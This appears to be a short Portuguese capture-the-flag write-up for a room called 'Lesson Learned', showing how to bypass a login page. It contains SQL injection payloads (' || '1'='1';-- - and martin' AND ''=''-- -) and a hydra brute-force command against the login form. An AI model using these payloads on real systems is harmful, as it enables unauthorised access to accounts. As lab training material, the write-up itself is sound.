



# _**Lesson Learned**_


## _**Enumeração**_
Devido a natureza da sala, vamos acessar a página ```http://[ip_address]```  
Devemos passar da página de login  
Vamos primeiro tentar um SQL Injection com: ```' || '1'='1';-- -```



Parece que vamos ter que reiniciar a máquina  
Vamos tentar de outra maneira  
Após algum tempo pensando, foi decidido tentear _brute force_, mesmo sem lista de nomes de usuários  
> ```bash
> hydra -L ../seclists/Usernames/xato-net-10-million-usernames.txt -p test [ip_address] http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password."
> ```
Após um tempo, foi decidido tentar uma abordagem diferente de ```OR```
Tentando ```martin' AND ''=''-- -```, temos:



Temos a flag!
